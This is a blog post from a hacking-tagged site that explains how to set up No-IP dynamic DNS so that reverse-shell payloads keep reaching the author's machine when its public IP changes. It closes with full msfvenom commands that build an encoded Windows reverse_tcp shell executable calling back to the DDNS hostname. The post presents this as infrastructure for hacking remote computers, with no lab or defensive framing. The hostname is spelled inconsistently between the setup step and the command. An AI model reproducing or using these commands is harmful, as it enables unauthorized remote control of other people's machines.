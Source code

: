 ```yaml
---
date: "Sun Mar 06 2016 13:58:02 GMT+0530 (India Standard Time)"
title: Use DDNS to Deal With Your Dynamic Public IP
tags:
  - hacking
  - dns
  - metasploit
---
```


Many of us have an internet connection with a dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I’m going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I’m getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.

## Understanding Dynamic Public IP Address

Public IP is the IP that’s visible to machines outside your local network. For example, if two or more machines are connected through a router—maybe through Wi-Fi—to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router’s public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what’s your public IP by googling “What is my IP”, Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as `android/meterpreter/reverse_tcp`, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won’t be able to use a payload for a long time because after some time the IP stored inside it won’t point to your machine anymore. That’s a problem — a major one. This is where DDNS comes in.

## Dynamic DNS aka DDNS to The Rescue

We all know what DNS or Domain Naming System is, it’s the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.

## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS → Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is `hostname.domain`. For example, I chose the default domain name—ddns.com—and the hostname I entered is _skulltech_. So the address I got is “skulltech.ddns.com”. Refer to the screenshots below for reference.

![step-1](/images/posts/ddns-dynamic-ip-step-11.png)
![step-2](/images/images/ddns-dynamic-ip-step-21.png)

### Step 3: Install the Dynamic DNS Update Client

Now you’ll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It’s a tar.gz archive, extract it using the following command —

```console
$ tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-24-36.png)

After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```console
$ make install
```

![screenshot-from-2016-12-18-14-38-06](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-38-06.png)

After that the program will ask for your No-IP username and password.

### Step 4: Configure the Client and Run It

Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname—or hostnames—that you want to associate with this computer in that step.

```console
$ noip2 -C
```

When you are done with the configuration, just run `noip2` in the terminal to start the client, it will run in the background and keep updating your DNS record.

```console
$ noip2
```

![screenshot-from-2016-12-18-14-49-56](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-49-56.png)

## Using DDNS Hostname in Payloads

You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won’t be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_—if you don’t check out [this tutorial](/articles/embed-metasploit-payload-in-apk-easily/)—I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it’s _192.168.1.101_.

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to _msfvenom_ instead of your IP. So now the command will be —

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
